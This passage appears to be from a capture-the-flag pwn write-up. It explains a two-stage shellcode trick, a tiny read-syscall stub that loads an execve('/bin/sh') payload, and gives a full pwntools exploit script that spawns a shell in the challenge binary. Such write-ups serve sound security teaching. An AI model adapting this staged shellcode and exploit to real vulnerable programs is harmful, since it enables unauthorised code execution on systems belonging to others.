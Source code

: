 ```c

int main()
{
    vuln();
    return 0;
}
```

As we can see its very tough to fit out `execve('/bin/sh',0,0)` shellcode in 10 bytes. Thus we will first use the `read` syscall to read our `execve` shellcode and then execute it giving us shell. Thus the `read` shellcode will be as follows:

```nasm
    xor edi, edi
    mov esi, 0x13370009
    syscall
```
The values of `rax` and `rdx` registers were already set to the required amount hence they are not required here. Also I have used 32 bit registers to make the shellcode smaller.

**Note: Try to debug and find out why the value 0x13370009 is moved into `esi`**

Here is the exploit:

```py
from pwn import *

elf = context.binary = ELF("./chall",checksec=False)
p = elf.process()

context.arch = 'amd64'

# gdb.attach(p,'''
#     init-gef
#     b *vuln+101
#     c
#     si
# ''')

shellcode = asm('''
    xor edi, edi
    mov esi, 0x13370009
    syscall
''')

print(len(shellcode))
p.sendline(shellcode)

sleep(1)

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

# Resources

<a href="https://libc.rip/">Libc database</a><br>
<a href="https://github.com/NUSGreyhats/greyctf23-challs-public/tree/main/pwn/arraystore">Ret2libc challenge</a><br>
